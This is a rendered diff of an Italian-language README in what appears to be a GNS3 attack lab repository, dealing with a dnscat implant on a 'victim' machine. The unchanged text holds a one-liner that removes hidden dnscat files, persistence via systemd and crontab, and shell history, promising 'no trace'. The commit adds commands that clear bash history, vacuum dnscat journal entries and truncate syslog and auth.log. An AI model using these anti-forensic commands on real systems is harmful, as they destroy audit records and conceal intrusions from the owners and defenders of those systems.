

Before and after one commit to MarcoBove/gns3, a Markdown page: attack/readme.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/attack/readme.md
+++ b/attack/readme.md
@@ -1,5 +1,3 @@
-osboxes@osboxes:~$ ps aux | grep -i dnscat
-osboxes     4770  0.0  0.1   9144  2352 pts/0    S+   03:32   0:00 grep --color=auto -i dnscat
 
 
 
@@ -159,3 +157,20 @@ bash
 
 rm -rf /tmp/.sysupdate /tmp/sysupdate* /tmp/.hidden*;pkill -f dnscat;systemctl --user disable dnscat.service 2>/dev/null;systemctl --user daemon-reload 2>/dev/null;(crontab -l 2>/dev/null|grep -v dnscat)|crontab - 2>/dev/null;history -c;echo "CLEAN!"
 Esegui il one-liner → esci dalla sessione → vittima pulita al 100%. Nessuna traccia!
+
+
+
+
+
+
+
+
+
+# Pulisci bash history
+history -c && history -w
+
+# Pulisci journalctl recenti (user level)
+journalctl --user -u dnscat --vacuum-time=1s 2>/dev/null || true
+
+# /var/log se hai accesso
+sudo truncate -s 0 /var/log/syslog /var/log/auth.log 2>/dev/null || true
```
